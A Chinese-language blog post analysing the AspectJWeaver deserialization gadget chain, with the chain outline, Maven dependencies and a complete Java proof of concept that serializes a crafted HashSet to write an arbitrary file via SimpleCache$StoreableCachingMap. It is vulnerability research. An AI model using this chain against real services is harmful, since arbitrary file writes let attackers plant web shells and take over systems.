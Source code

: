 # AspectJWeaver 任意文件写入链分析

  
  
&lt;!--more--&gt;  
## 0X00 前言  
AspectJ 是 Eclipse 基金组织的开源项目，它是 Java 语言的一个 AOP 实现，是最早、功能比较强大的 AOP 实现之一，对整套 AOP 机制都有较好的实现，很多其他语言的 AOP 实现也借鉴或者采纳了 AspectJ 中的很多设计。在 Java 领域，AspectJ 中的很多语法结构基本上已经成为 AOP 领域的标准。  
## 0x01 漏洞分析  
Chain gadget  
```  
HashSet.readObject()  
    HashMap.put()  
        HashMap.hash()  
            TiedMapEntry.hashCode()  
                TiedMapEntry.getValue()  
                    LazyMap.get()  
                        SimpleCache$StorableCachingMap.put()  
                            SimpleCache$StorableCachingMap.writeToPath()  
```  
`pom.xml`  
```xml  
   &lt;dependencies&gt;  
        &lt;dependency&gt;  
            &lt;groupId&gt;org.aspectj&lt;/groupId&gt;  
            &lt;artifactId&gt;aspectjweaver&lt;/artifactId&gt;  
            &lt;version&gt;1.9.2&lt;/version&gt;  
        &lt;/dependency&gt;  
        &lt;dependency&gt;  
            &lt;groupId&gt;commons-collections&lt;/groupId&gt;  
            &lt;artifactId&gt;commons-collections&lt;/artifactId&gt;  
            &lt;version&gt;3.2.1&lt;/version&gt;  
        &lt;/dependency&gt;  
    &lt;/dependencies&gt;  
```  
### **sink点**  
`SimpleCache$StoreableCachingMap`  
在`org.aspectj.weaver.tools.cache.SimpleCache`类中定义了一个内部类`StoreableCachingMap`，这个类继承了`HashMap`，提供了将Map中值写入文件中的功能。  
在调用`put`方法向`StoreableCachingMap`中放入值时，会调用`wrteToPath`方法将`value`中的值写入到文件中。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050038188.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050038849.png)
路径拼接`folder &#43; File.separator &#43; key`，`values`是`bytes`数组类型的数据。  
这就构成了一个文件写入的sink点，  
```java  
import java.lang.reflect.Constructor;    
import java.nio.charset.StandardCharsets;    
import java.util.HashMap;    
    
public class FileWrite {    
    public static void main(String[] args) throws Exception {    
        Class&lt;?&gt; clazz = Class.forName(&#34;org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap&#34;);    
        Constructor&lt;?&gt; constructor = clazz.getDeclaredConstructor(String.class, int.class);    
        constructor.setAccessible(true);    
        HashMap&lt;String,Object&gt; map = (HashMap) constructor.newInstance(&#34;/tmp&#34;,1000);    
        map.put(&#34;success&#34;,&#34;success&#34;.getBytes(StandardCharsets.UTF_8));    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050042381.png)
谁能触发`org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap`中的`put`方法呢？  
### LazyMap  
在CC链中`org.apache.commons.collections.map.LazyMap`类，在`transform`之后会调用封装的内部`map`的`put`方法将结果保存，这就会触发到`put`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050046915.png)
### POC构造  
所以我们可以用`HashSet`反序列化来触发`TiedMapEntry`的`hashCode`进一步触发`LazyMap`的`get`方法，  
```java  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.charset.StandardCharsets;  
import java.util.HashMap;  
import java.util.HashSet;  
import java.util.Map;  
  
public class Poc {  
    public static void main(String[] args) throws Exception {  
        String fileName    = &#34;success&#34;;  
        String filePath    = &#34;/tmp&#34;;  
        String fileContent = &#34;success&#34;;  
  
        // 初始化 HashMap  
        HashMap&lt;Object, Object&gt; hashMap = new HashMap&lt;&gt;();  
  
        // 实例化  StoreableCachingMap 类  
        Class&lt;?&gt;       c           = Class.forName(&#34;org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap&#34;);  
        Constructor&lt;?&gt; constructor = c.getDeclaredConstructor(String.class, int.class);  
        constructor.setAccessible(true);  
        Map map = (Map) constructor.newInstance(filePath, 10000);  
  
        // 初始化一个 Transformer，使其 transform 方法返回要写出的 byte[] 类型的文件内容  
        Transformer transformer = new ConstantTransformer(fileContent.getBytes(StandardCharsets.UTF_8));  
  
        // 使用 StoreableCachingMap 创建 LazyMap 并引入 TiedMapEntry  
        Map          lazyMap = LazyMap.decorate(map, transformer);  
        TiedMapEntry entry   = new TiedMapEntry(lazyMap, fileName);  
  
        HashSet hashset = new HashSet(1);  
        hashset.add(&#34;foo&#34;);  
        //HashSet 基于 HashMap 来实现的，获取其HashSet中的HashMap  
        Field field = Class.forName(&#34;java.util.HashSet&#34;).getDeclaredField(&#34;map&#34;);  
        field.setAccessible(true);  
        HashMap hashset_map = (HashMap) field.get(hashset);  
        //反射获取了 HashMap 中的 table 属性，table其实就是hashmap的存储底层，将HashMap中的每一个元素&lt;Key,Value&gt; 封装在了 Node 对象中，将这些node对象存储在table数组中  
        Field table = Class.forName(&#34;java.util.HashMap&#34;).getDeclaredField(&#34;table&#34;);  
        table.setAccessible(true);  
        Object[] array = (Object[])table.get(hashset_map);  
        //在获取到了 table 中的 key 之后，利用反射修改其为 tiedmap  
        Object node = array[0];  
        if(node == null){  
            node = array[1];  
        }  
        Field key = node.getClass().getDeclaredField(&#34;key&#34;);  
        key.setAccessible(true);  
        key.set(node,entry);  
  
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(hashset);  
  
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));  
        objectInputStream.readObject();  
  
    }  
}  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/aspectjweaver-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E9%93%BE%E5%88%86%E6%9E%90/  

